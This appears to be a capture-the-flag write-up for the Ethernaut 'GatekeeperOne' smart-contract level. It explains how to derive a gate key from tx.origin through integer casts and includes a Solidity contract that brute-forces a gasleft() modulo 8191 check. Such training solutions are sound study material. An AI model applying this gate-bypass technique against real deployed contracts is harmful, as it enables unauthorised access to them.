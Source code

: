 #GatekeeperOne

This level is split into 3 parts.

The first part has us require a proxy contract like the telephone level. We can
simply deploy our own contract to interact with the level.

The second part we will skip for now.

The third part has us do some casting conversions and we will work backwards from
third require statement. We take the last 4 hex values
of our tx.origin and compare it against the last 8 hex values of our key. This means
that the key will be a 4 hex padded value of the tx.origin.

> uint16(uint160(tx.origin)) = 0xDC2F
> therefore
> uint32(uint64(\_gateKey)) = 0x0000DC2F

Then we now check that the full length of the key is not the same as the half, we can make sure
by adding a single 1 in the padded key.

> uint64(\_gateKey) = 0x100000000000DC2F

And the first check is the same as the third so we don't have to worry.

Now in part 2, we have to calculate when the gasleft is a multiple of 8191. One might
try to submit a call with gas that is equivalent to that multiple, however, it seems like
the gas sent with the call is not the same as the gasleft when the checks are processed.
Therefore we can just bruteforce our way in.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

interface IGatekeeperOne {
    function enter(bytes8) external returns (bool);
}

contract GatekeeperPass {
    address immutable i_gatekeeperAddress;
    bool public success;
    uint256 public gas;
    constructor(address _gatekeeperAddress) {
        i_gatekeeperAddress = _gatekeeperAddress;
    }

    function unlock(bytes8 _gateKey) public {
        for(uint i = 0; i < 8191; i++) {
            (bool _success, ) = i_gatekeeperAddress.call{gas: i + (8191 * 3)}(abi.encodeWithSignature("enter(bytes8)", _gateKey));
            if(_success) {
                success = _success;
                break;
            }
        }
    }
    // gateskey: 0x100000000000DC2F
    // tx.origin: 0xDC2F
}
```
